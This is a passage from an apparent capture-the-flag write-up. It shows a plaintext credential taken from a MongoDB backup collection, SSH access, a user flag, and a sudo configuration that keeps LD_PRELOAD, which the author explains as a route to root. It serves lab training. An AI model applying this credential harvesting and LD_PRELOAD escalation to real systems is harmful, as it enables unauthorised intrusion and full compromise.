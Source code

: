We can do this:

```mongo
> use backup
> show collections
collection
user

> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

As seen, we got credentials:

```
webdeveloper:BahamasChapp123!@#
```

We can go into ssh with those:

![](images/Pasted%20image%2020250502155718.png)

We are now able to read `user.txt`:

```
webdeveloper@sky:~$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
```

If we use `sudo -l`, we notice this:

```
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

There's a strange binary on here, the interesting stuff on here is the:

```
LD_PRELOAD
```

LD_PRELOAD is an environment variable in Linux that allows users to specify a shared library (.so file) to be loaded _before_ all other system libraries during program execution. This mechanism is typically used for debugging or overriding specific functions in existing libraries. However, in a security context, it can be abused for privilege escalation if an attacker controls the `LD_PRELOAD` variable and can execute a binary with elevated privileges (e.g., via sudo). By crafting a malicious shared library that defines functions with the same names as those used by the target binary (e.g., `system()`, `exec()`, or even constructor functions), an attacker can hijack the program’s execution flow. When the binary runs, it loads the attacker’s library first, executing arbitrary code with the privileges of the target process, in this case, root—due to the `sudo` permissions granted to `/usr/bin/sky_backup_utility`.
